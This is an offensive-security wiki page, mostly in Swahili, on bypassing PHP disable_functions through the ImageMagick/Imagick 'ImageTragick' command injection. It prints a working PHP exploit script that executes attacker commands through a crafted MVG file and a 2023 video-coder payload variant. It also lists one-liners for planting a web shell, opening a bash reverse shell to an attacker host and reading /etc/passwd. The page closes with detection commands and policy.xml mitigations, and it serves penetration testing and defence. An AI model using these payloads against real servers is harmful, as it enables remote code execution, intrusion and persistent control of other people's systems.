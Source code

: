# Imagick <= 3.3.0  ‑ PHP >= 5.4  *disable_functions* Bypass

{{#include ../../../../banners/hacktricks-training.md}}

> Familia maarufu ya makosa ya *ImageTragick* (CVE-2016-3714 na wengine) inaruhusu mshambuliaji kufikia **ImageMagick** binary kupitia ingizo la MVG/SVG lililotengenezwa. Wakati nyongeza ya PHP **Imagick** ipo, hii inaweza kutumika vibaya kutekeleza amri za shell hata kama kila kazi ya PHP inayohusiana na utekelezaji imeorodheshwa kwenye `disable_functions`.
>
> PoC ya awali iliyochapishwa na RicterZ (Chaitin Security Research Lab) mnamo Mei 2016 inarejelewa hapa chini. Mbinu hii bado inakabiliwa mara kwa mara wakati wa ukaguzi wa kisasa wa PHP 7/8 kwa sababu wengi wa watoa huduma wa mwenyeji wa pamoja wanakusanya PHP bila `exec`/`system` lakini wanaweka mchanganyiko wa zamani wa Imagick + ImageMagick.

From <http://blog.safebuff.com/2016/05/06/disable-functions-bypass/>
```php
# Exploit Title : PHP Imagick disable_functions bypass
# Exploit Author: RicterZ  (ricter@chaitin.com)
# Versions      : Imagick <= 3.3.0  |  PHP >= 5.4
# Tested on     : Ubuntu 12.04 (ImageMagick 6.7.7)
# Usage         : curl "http://target/exploit.php?cmd=id"
<?php
// Print the local hardening status
printf("Disable functions: %s\n", ini_get("disable_functions"));
$cmd = $_GET['cmd'] ?? 'id';
printf("Run command: %s\n====================\n", $cmd);

$tmp   = tempnam('/tmp', 'pwn');     // will hold command output
$mvgs  = tempnam('/tmp', 'img');     // will hold malicious MVG script

$payload = <<<EOF
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/x.jpg"|$cmd >$tmp")'
pop graphic-context
EOF;

file_put_contents($mvgs, $payload);
$img = new Imagick();
$img->readImage($mvgs);     // triggers convert(1)
$img->writeImage(tempnam('/tmp', 'img'));
$img->destroy();

echo file_get_contents($tmp);
?>
```
---

## Kwa nini inafanya kazi?

1. `Imagick::readImage()` kwa uwazi inazalisha **ImageMagick** *delegate* (`convert`/`magick`) binary.
2. Skripti ya MVG inaweka *fill* kwa URI ya nje. Wakati nukta mbili (`"`) inapoingizwa, sehemu iliyobaki ya mstari inatafsiriwa na `/bin/sh ‑c` ambayo ImageMagick inatumia ndani → utekelezaji wa shell wa kiholela.
3. Yote yanafanyika nje ya tafsiri ya PHP, kwa hivyo *`disable_functions`*, *open_basedir*, `safe_mode` (iliyondolewa katika PHP 5.4) na vizuizi vingine vya ndani vinapita kabisa.

## Hali ya 2025 – bado ni **muhimu**

* Toleo lolote la Imagick linalotegemea nyuma ya ImageMagick iliyo hatarini linaendelea kuwa na uwezo wa kutumika. Katika majaribio ya maabara, payload sawa inafanya kazi kwenye PHP 8.3 na **Imagick 3.7.0** na **ImageMagick 7.1.0-51** iliyokusanywa bila `policy.xml` iliyohardishwa.
* Tangu 2020, njia kadhaa za ziada za kuingiza amri zimepatikana (`video:pixel-format`, `ps:`, `text:` coders…). Mifano miwili ya hivi karibuni za umma ni:
* **CVE-2020-29599** – kuingiza shell kupitia *text:* coder.
* **GitHub issue #6338** (2023) – kuingiza katika *video:* delegate.

Ikiwa mfumo wa uendeshaji unapeleka ImageMagick < **7.1.1-11** (au 6.x < **6.9.12-73**) bila faili ya sera ya kikomo, unyakuzi ni rahisi.

## Mifano ya kisasa ya payload
```php
// --- Variant using the video coder discovered in 2023 ---
$exp = <<<MAGICK
push graphic-context
image over 0,0 0,0 'vid:dummy.mov" -define video:pixel-format="rgba`uname -a > /tmp/pwned`" " dummy'
pop graphic-context
MAGICK;
$img = new Imagick();
$img->readImageBlob($exp);
```
Mifano mingine ya manufaa wakati wa CTFs / ushirikiano wa kweli:

* **Kuandika faili**  – `... > /var/www/html/shell.php`  (andika web-shell nje ya *open_basedir*)
* **Shell ya kurudi** – `bash -c "bash -i >& /dev/tcp/attacker/4444 0>&1"`
* **Kuhesabu** – `id; uname -a; cat /etc/passwd`

## Ugunduzi wa haraka & kuhesabu
```bash
# PHP side
php -r 'echo phpversion(), "\n"; echo Imagick::getVersion()["versionString"], "\n";'

# System side
convert -version | head -1                 # ImageMagick version
convert -list policy | grep -iE 'mvg|https|video|text'   # dangerous coders still enabled?
```
Ikiwa matokeo yanaonyesha `MVG` au `URL` coders zime *wezeshwa* lengo linaweza kuwa na hatari.

## Mitigations

1. **Patch/Upgrade**  – Tumia ImageMagick ≥ *7.1.1-11* (au toleo la hivi karibuni 6.x LTS) na Imagick ≥ *3.7.2*.
2. **Harden `policy.xml`**  – wazi *zima* coders zenye hatari kubwa:

```xml
<policy domain="coder" name="MVG" rights="none"/>
<policy domain="coder" name="MSL" rights="none"/>
<policy domain="coder" name="URL" rights="none"/>
<policy domain="coder" name="VIDEO" rights="none"/>
<policy domain="coder" name="PS" rights="none"/>
<policy domain="coder" name="TEXT" rights="none"/>
```

3. **Ondoa kiendelezi**  kwenye mazingira ya mwenyeji yasiyoaminika. Katika sehemu nyingi za wavuti `GD` au `Imagick` si lazima.
4. Chukulia `disable_functions` kama *ulinzi wa kina* – kamwe si kama mekanismu ya msingi ya sandboxing.

## References

* [GitHub ImageMagick issue #6338 – Command injection via video:pixel-format (2023)](https://github.com/ImageMagick/ImageMagick/issues/6338)
* [CVE-2020-29599 – ImageMagick shell injection via text: coder](https://nvd.nist.gov/vuln/detail/CVE-2020-29599)
{{#include ../../../../banners/hacktricks-training.md}}
